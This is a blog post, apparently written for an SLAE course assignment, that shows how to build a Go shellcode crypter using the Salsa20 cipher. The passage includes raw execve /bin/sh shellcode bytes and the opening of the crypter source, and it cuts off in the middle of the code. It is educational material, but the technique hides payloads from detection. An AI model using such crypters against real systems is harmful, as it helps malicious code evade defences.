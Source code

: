 ```yaml
---
layout: single
title: Creating a custom shellcode crypter
date: 2018-12-12
classes: wide
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - crypter
  - go
---
```


For this last SLAE assignment, I've created a custom shellcode crypter using the [Salsa20](https://en.wikipedia.org/wiki/Salsa20) stream cipher. Salsa20 is a family of 256-bit stream ciphers designed in 2005 and submitted to eSTREAM, the ECRYPT Stream Cipher Project.

I wanted to learn the basics of Golang for some time so this was a good opportunity to try a new programming language. The crypter and decrypter are both written in Go and use the offical golang.org sub-repository crypto packages. I also used the [Cgo](https://golang.org/cmd/cgo/) and [unsafe](https://golang.org/pkg/unsafe/) packages so that I could get around the type safety of the Go programming language and call the shellcode once it has been decrypted.

For demonstration purposes, we will use the standard execve shellcode that executes `/bin/sh`:

```
slemire@slae:~/slae32/examples/Shellcode/Execve$ ../../../compile.sh execve
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Shellcode: \xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43
[+] Length: 49
[+] Done!
```

## Crypter

The crypter uses the following input:
- Shellcode
- 24 bytes nonce (generated randomly)
- 32 bytes key (generated randomly)

If the resulting encrypted shellcode contains any null-byte, a warning is displayed.

The crypter code is shown below:
```golang
package main

import "fmt"
import "os"
import "crypto/rand"
import "golang.org/x/crypto/salsa20"

func main() {
    fmt.Printf("Shellcode code crypter\n")

    // execve shellcode /bin/sh
    in := []byte {
            0xeb, 0x1a, 0x5e, 0x31, 0xdb, 0x88, 0x5e, 0x07,
            0x89, 0x76, 0x08, 0x89, 0x5e, 0x0c, 0x8d, 0x1e,
            0x8d, 0x4e, 0x08, 0x8d, 0x56, 0x0c, 0x31, 0xc0,
```